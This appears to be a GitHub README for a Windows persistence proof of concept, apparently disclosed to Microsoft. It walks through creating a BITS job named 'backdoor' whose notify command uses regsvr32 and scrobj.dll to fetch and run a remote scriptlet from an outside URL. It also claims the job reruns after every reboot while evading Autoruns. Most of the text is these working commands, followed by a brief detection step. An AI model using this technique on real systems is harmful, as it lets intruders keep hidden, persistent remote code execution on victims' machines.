 # bitsadminexec
Use bitsadmin to maintain persistence and bypass Autoruns

Report to MSRC.

###POC
(1)First we should have the administrator's right.

(2)Then run this on cmd with administrator's right:

```
bitsadmin /create backdoor
bitsadmin /addfile backdoor %comspec%  %temp%\cmd.exe
bitsadmin.exe /SetNotifyCmdLine backdoor regsvr32.exe "/u /s /i:https://raw.githubusercontent.com/3gstudent/SCTPersistence/master/calc.sct scrobj.dll"
bitsadmin /Resume backdoor
```

(3)as the gif shows,it will run the following command to start a calc.exe:
```
regsvr32.exe "/u /s /i:https://raw.githubusercontent.com/3gstudent/SCTPersistence/master/calc.sct scrobj.dll
```

(4)What's more,after we restart the system,the command to start a calc.exe runs again and again.


###Impact of the issue
Autoruns's startup monitor can't find this.

Test success on Win7 、Win8、Server 2008 and so on.

###Detect
Run this to check the jobs and delete it:
```
bitsadmin /list /allusers /verbose
```
or
```
Stop Background Intelligent Transfer Service
```
